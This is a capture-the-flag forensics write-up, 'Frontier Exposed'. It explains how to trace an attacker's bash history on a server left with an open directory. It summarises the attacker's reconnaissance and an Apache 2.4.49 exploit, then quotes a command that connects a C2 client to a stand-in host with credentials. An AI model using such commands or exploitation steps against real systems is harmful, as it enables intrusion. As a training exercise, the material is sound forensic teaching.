

 <font size='10'>Frontier Exposed</font>

20<sup>th</sup> December 2024 / Document No. D24.102.XX

Prepared By: thewildspirit

Challenge Author(s): thewildspirit

Difficulty: <font color=Green>Very Easy</font>

Classification: Official

# Synopsis

* Frontier Exposed is a very easy forensic challenge that involves analyzing an open directory on a vulnerable server. Participants are tasked with investigating the bash history to uncover the actions of malicious actors.

## Description

* The chaos within the Frontier Cluster is relentless, with malicious actors exploiting vulnerabilities to establish footholds across the expanse. During routine surveillance, an open directory vulnerability was identified on a web server, suggesting suspicious activities tied to the Frontier Board. Your mission is to thoroughly investigate the server and determine a strategy to dismantle their infrastructure. Any credentials uncovered during the investigation would prove invaluable in achieving this objective. Spawn the docker and start the investigation!

## Skills Required

* Minimal experience with the Linux operating system.

## Skills Learned

* Open directory 
* Analyzing bash history

# Enumeration

Players are provided with a Docker instance. Upon launching the instance and navigating to the specified URL, they will encounter the following.

"As outlined in the description, this server has an open directory vulnerability, allowing unrestricted access to all files within the directory from which the server is being executed."

By inspecting the files such as `nmap_scan_results.txt` and `dirs.txt`, it is clear that a malicious actor was performing an enumeration on their target. Let us analyze the outputs.


The target had two ports open. Port 22 which is the SSH service and port 80 which is a vulnerable Apache server. This means that `exploit.sh` is probably the exploit for that server. 



Which is indeed an exploit for that specific version. Now let us move to the bash history so we can have a better view on the attacker's actions.


* The attacker used `Nmap` to perform a service and version scan, saving results in `nmap_scan_results.txt`. They then inspected the scan results using `cat`.
* Using `gobuster`, they conducted directory brute-forcing to identify hidden directories or files, followed by a full port scan using `nc`.
* The attacker employed curl and nikto for basic web reconnaissance and vulnerability scanning. 
* `Sqlmap` was used for automated SQL injection to extract database information. But it probably was not successful.
* They leveraged searchsploit to identify vulnerabilities in `Apache 2.4.49` and downloaded a related exploit script (exploit.sh), granting it execution permissions with `chmod`. After crafting a target file, they used the exploit to gain a shell and confirm their access via the `whoami` command.
* Post-exploitation actions included downloading and executing a command-and-control (C2) client, establishing remote access, and executing a beacon script via curl. 
* The attacker also fetched a vulnerability assessment script (vulnmap-linux.py) and copied it to the web directory, possibly for further exploitation or persistence. 

# Solution

Something worth noting is the following command.
```console
/c2client --server 'https://notthefrontierboard' --port 4444 --user admin --password SFRCe0[REDACTED]2R9
```
Which as described earlier, connects to a Command & Control server with the following credentials:
```
admin:SFRCe0[REDACTED]2R9
```
[Cyber Chef](https://gchq.github.io/CyberChef/#recipe=From_Base64('A-Za-z0-9%2B/%3D',true,false)) can identify and decode this string.

That is how we can get the flag.